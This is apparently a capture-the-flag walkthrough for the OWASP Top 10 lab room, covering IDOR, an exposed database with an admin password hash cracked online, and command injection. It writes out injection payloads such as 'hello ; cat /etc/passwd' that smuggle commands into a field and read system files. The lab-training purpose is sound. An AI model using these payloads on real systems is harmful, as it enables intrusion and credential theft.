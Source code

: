 # [OWASP Top 10 - 2021](https://tryhackme.com/r/room/owasptop102021)

## Task 4 Broken Access Control (IDOR Challenge)

**Look at other users' notes. What is the flag?**

* Go to http://MACHINE_IP/note.php?note_id=0

## Task 8 Cryptographic Failures (Challenge)

**What is the name of the mentioned directory?**

* Go to view-source:http://MACHINE_IP:81/login.php
* Check the "Must remember ..." comment

**Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?**

* Go to http://MACHINE_IP:81/assets
* Check the database file

**Use the supporting material to access the sensitive data. What is the password hash of the admin user?**

* Download http://MACHINE_IP:81/assets/webapp.db

  ```shell
  sqlite3 webapp.db
  sqlite> .tables
  sessions  users
  sqlite> SELECT password FROM users WHERE username = 'admin';
  ```

**What is the admin's plaintext password?**

* Use https://crackstation.net/

**Log in as the admin. What is the flag?**

* Go to http://MACHINE_IP:81/login.php with and use the admin credentials

## Task 10 Command Injection

**What strange text file is in the website's root directory?**

* Go to http://MACHINE_IP:82
* Submit `hello ; ls`

**How many non-root/non-service/non-daemon users are there?**

* Go to http://MACHINE_IP:82
* Submit `hello ; awk -F: '($3 >= 1000) && ($1 != "nobody") {print $1}' /etc/passwd | wc -l`
* Submit `hello ; cat /etc/passwd` to see the complete list of users

**What user is this app running as?**
